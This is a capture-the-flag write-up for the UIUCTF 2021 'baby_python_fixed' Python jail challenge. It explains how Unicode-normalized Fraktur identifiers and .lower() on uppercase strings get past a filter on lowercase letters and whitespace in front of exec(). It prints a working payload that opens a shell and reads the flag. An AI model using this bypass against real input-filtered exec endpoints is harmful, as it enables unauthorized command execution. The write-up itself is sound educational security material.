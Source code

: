 # baby_python_fixed - 133 pts, 45 solves

> whoops, I made a typo on the other chal. it's probably impossible, right? Python version is 3.8.10 and flag is at /flag
> 
> nc baby-python-fixed.chal.uiuc.tf 1337
> 
> challenge.py

`baby-python-fixed` was a jail challenge in UIUCTF 2021, where I played with `TeamlessCTF` and got 12th place. I actually got first blood on this challenge!

We start by examining the challenge file:

```python
import re
bad = bool(re.search(r'[a-z\s]', (input := input())))
exec(input) if not bad else print('Input contained bad characters')
exit(bad)
```

Seems pretty minimal. We can see that the challenge checks our input to see if there is any whitespace or lowercase letters, then `exec()`s it if there are none.

The filter is pretty easy to work around, if you know one quirk about python. Python will unicode normalize keywords in code before running, so `𝔭𝔯𝔦𝔫𝔱("Hello World!")` is actually equiv to `print("Hello World!")` We can leverate this to access arbituary keywords. 

However, we also need to access strings, such as "os" and "sh", which will not be unicode normalized. Luckily, uppercase letters are not blacklisted so we are able to get lowercase strings with `"OS".lower()`.

Putting this all together, we can craft a payload:

```
$ nc baby-python-fixed.chal.uiuc.tf 1337
== proof-of-work: disabled ==
__𝔦𝔪  𝔭𝔬𝔯𝔱    __("OS".𝔩𝔬𝔴𝔢    𝔯()). 𝔰𝔶𝔰   𝔱𝔢𝔪(   "SH".𝔩𝔬𝔴   𝔢𝔯()  )
cat /flag
uiuctf{unicode_normalization_is_not_normal_d2f674}
```

Flag: `uiuctf{unicode_normalization_is_not_normal_d2f674}`
